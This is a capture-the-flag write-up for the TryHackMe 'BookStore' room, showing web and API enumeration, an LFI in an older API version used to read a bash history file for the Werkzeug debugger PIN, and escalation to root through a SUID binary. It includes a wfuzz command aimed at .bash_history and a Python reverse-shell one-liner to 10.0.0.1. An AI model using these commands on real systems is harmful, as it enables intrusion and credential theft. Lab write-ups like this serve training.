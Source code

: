 ```yaml
---                                                                                                                                    
title: "BookStore"                                                                                                                         
categories:                                                                                                                            
 - tryhackme                                                                                                                          
tags:                                                                                                                                  
 - linux                                                                                                                               
 - medium                                                                                                                                
 - writeups                                                                                                                            
author_profile: true                                                                                                                   
--- 
```


A Beginner level box with basic web enumeration and REST API Fuzzing.

**Room**: *https://tryhackme.com/room/bookstoreoc*

> nmap

ssh & http are only open

> web enumeration

- /assets/js/api.js

```javascript
function getAPIURL() {
var str = window.location.hostname;
str = str + ":5000"
return str;
    }
async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}

async function renderUsers() {
    let users = await getUsers();
    let html = '';
    users.forEach(user => {
        let htmlSegment = `<div class="user">
	 	        <h2>Title : ${user.title}</h3> <br>
                        <h3>First Sentence : </h3> <br>
			<h4>${user.first_sentence}</h4><br>
                        <h1>Author: ${user.author} </h1> <br> <br>        
                </div>`;

        html += htmlSegment;
   });
   
    let container = document.getElementById("respons");
    container.innerHTML = html;
}
renderUsers();
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```
- ip:5000

```
Foxy REST API v2.0

This is a REST API for science fiction novels.
```

- ip:5000/console

`Werkzeug  Debugger` but pin locked.

- ip:5000/api

```
API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

- /login.html

```
.....
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

Combining all this above information we know we can get a RCE from debugger if we get the pin-code by using LFI in older version of api.

> API Fuzzing

```bash
wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -u http://ip/v1/resources/books?FUZZ=.bash_history
```

> RCE

After getting the pin we can run reverse shell on console to get a rce.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

> User Enumeration

- found user.txt
- a suid executable `try-harder` 

Download the executable and open it with `ghidra`, we can get the passcode by xor calculation.

> Root

Enter above found passcode into executable input prompt and we are 
**rooted**


